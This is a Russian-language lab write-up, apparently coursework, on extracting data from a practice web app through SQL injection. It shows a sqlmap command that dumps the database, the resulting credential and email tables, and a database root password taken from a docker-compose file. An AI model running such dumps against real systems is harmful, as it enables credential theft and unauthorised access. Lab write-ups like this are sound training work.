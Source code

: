 ### Получение данных через SQLi:

1. Выполню установку БД с web-страницы согласно заданию
<br/>http://192.168.1.17:8080
2. Начну смотреть данные с web-страницы
<br/>http://192.168.1.17:8080/task/
2.1. Здесь мне предложено ввести в качестве параметра id (видимо пользователя)
<br/>Добавляю параметр (id=1) и вижу результат с логином "admin"
<br/>http://192.168.1.17:8080/task?id=1
<br/>http://192.168.1.17:8080/task?id=2
<br/>...

Были сделаны попытки введения запросов (без результатов):
http://192.168.1.17:8080/task?username=Volk2
http://192.168.1.17:8080/task?id=2&select=username,password
http://192.168.1.17:8080/task?id=2&select=password

#### Последующий анализ буду проводить утилитой [SQLMap](https://github.com/sqlmapproject/sqlmap)
<br/>попробую снять дамп с БД...
<br/>python ./sqlmap.py -u "http://192.168.1.17:8080/task/?id=1" --dump
<br/>Готово

##### Получены файлы:
- users.csv
- emails.csv

##### Посмотрю таблицу users.csv

|id|password|username|
|-|-|-|
|1|kjhsd8@j0dfjk3$%jksli|admin|
|2|nu zayzc, nu pogodi!|Volk|
|3|a ya vse chawe zame4aiu, 4to menya kak budto kto-to podmenil|Matroskin|
|4|Ya tu4ka-tu4ka-tu4ka|Vinni-pukh|
|5|na Lune|Neznaika|
|6|Gav|kotenok|
|7|muwchina v samom rascvete sil|Karlson|
|8|pust vsegda budet Vovka |Kesha|
|9|Wa spoiuuuuu|Volk2|

Получен пароль пользователя Volk2
<br/>User: Volk2
<br/>Password: Wa spoiuuuuu

##### Посмотрю таблицу emails.csv
|id|email_id|
|-|-|
|1|admin@otus-lab.com|
|2|volchara1969@otus-lab.com|
|3|matroskin_is_prostokvashino@otus-lab.com|
|4|honey_lover@otus-lab.com|
|5|ne.znaika@otus-lab.com|
|6|kotenok@otus-lab.com|
|7|karlson@otus-lab.com|
|9|volk@otus-lab.com|

Получен почтовый ящик пользователя с ником Volk2 (соответствие id)
<br/>User: Volk2
<br/>Email: volk@otus-lab.com

### Другой вариант получения всех таблиц и данных (обычный вход в БД MySQL)
(т.к. в docker-compose уже оставлен пароль администратора БД)
server: 192.168.1.17
port: 8989
login: root
password: Vdjo7#l-er

